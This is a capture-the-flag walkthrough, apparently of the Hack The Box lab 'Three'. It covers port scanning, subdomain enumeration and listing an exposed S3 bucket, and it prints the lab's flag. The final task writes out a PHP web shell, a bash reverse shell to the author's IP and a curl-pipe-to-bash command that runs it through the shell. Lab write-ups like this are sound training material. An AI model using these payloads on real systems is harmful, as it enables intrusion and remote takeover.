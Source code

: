 # Three

## Initial Scan

```bash
nmap -sV -T4 -v 10.129.232.222
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-16 18:35 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 18:35
Scanning 10.129.232.222 [2 ports]
Completed Ping Scan at 18:35, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:35
Completed Parallel DNS resolution of 1 host. at 18:35, 0.08s elapsed
Initiating Connect Scan at 18:35
Scanning 10.129.232.222 [1000 ports]
Discovered open port 22/tcp on 10.129.232.222
Discovered open port 80/tcp on 10.129.232.222
Completed Connect Scan at 18:35, 0.71s elapsed (1000 total ports)
Initiating Service scan at 18:35
Scanning 2 services on 10.129.232.222
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:35 (0:00:06 remaining)
Completed Service scan at 18:35, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.232.222.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.26s elapsed
Initiating NSE at 18:35
Completed NSE at 18:35, 0.20s elapsed
Nmap scan report for 10.129.232.222
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds
```

## Task 1

#### How many TCP ports are open?

Found within the initial scan

Answer: 2

## Task 2

#### What is the domain of the email address provided in the "Contact" section of the website?

We see port 80 open on the target, when browsing the website of the target, going to Contact we see the email address.

<figure><img src="../../../../.gitbook/assets/image (105) (2).png" alt=""><figcaption></figcaption></figure>

Answer: thetoppers.htb

## Task 3

#### In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

General knowledge. Using the Host file on various systems can be used in lieu of a DNS server if they are hosted internally.

Answer: /etc/hosts

## Task 4

#### Which sub-domain is discovered during further enumeration?

After editing the host file to map the IP to the domain, we can use Gobuster to help enumerate the site.

<figure><img src="../../../../.gitbook/assets/image (102) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

Answer: s3.thetoppers.htb

## Task 5

#### Which service is running on the discovered sub-domain?

Since it's s3 by amazon, also if we google: s3 subdomain

Answer: Amazon S3

## Task 6

#### Which command line utility can be used to interact with the service running on the discovered sub-domain?

Knowing it's amazon S3, what can we use to interact with it? Googling "Interact with Amazon S3" will give us our result

Answer: awscli

## Task 7

#### Which command is used to set up the AWS CLI installation?

`aws help` will give us our answer.

Answer: aws configure

## Task 8

#### What is the command used by the above utility to list all of the S3 buckets?

After configuring aws

<figure><img src="../../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

we can look at the S3 documentation.

Answer: aws s3 ls

## Task 9

#### This server is configured to run files written in what web scripting language?

Looking at the buckets with: `aws --endpoint=http://s3.thetoppers.htb s3 ls`

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

we can go into this further: `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

<figure><img src="../../../../.gitbook/assets/image (4) (3) (1).png" alt=""><figcaption></figcaption></figure>

With this basic info we can see this would use PHP

Answer: PHP

## Task 10

#### Submit Root Flag

So knowing it runs on PHP and with Amazons S3, we are going to work on getting a remote shell. Googling "get shell with php" I see we can use the `system()` function which takes the URL parameter `cmd` as an input and executes it as a system command.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

With the shell file created, we can use `cp` to get the file onto the server and run CMD.

<figure><img src="../../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

Confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php.

We are met with: `uid=33(www-data) gid=33(www-data) groups=33(www-data)` the output of the OS command `id`.

Now lets make a revershell script

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.119/1337 0>&1
```

<figure><img src="../../../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

Going to open a netcat shell with `nc -nvlp 1337`&#x20;

<figure><img src="../../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

Now open a temp webserver to pull our script from: `python3 -m http.server 8081`&#x20;

<figure><img src="../../../../.gitbook/assets/image (11) (3) (1).png" alt=""><figcaption></figcaption></figure>

Now we can use curl to get our script onto the server and executing it:

http://thetoppers.htb/shell.php?cmd=curl%20%3C10.10.14.119%3E:8081/shell.sh|bash

We now can see our reverse shell:

<figure><img src="../../../../.gitbook/assets/image (2) (3) (2).png" alt=""><figcaption></figcaption></figure>

Now we can locate the flag and cat it's contents

<figure><img src="../../../../.gitbook/assets/image (106) (2).png" alt=""><figcaption></figcaption></figure>

Answer: a980d99281a28d638ac68b9bf9453c2b
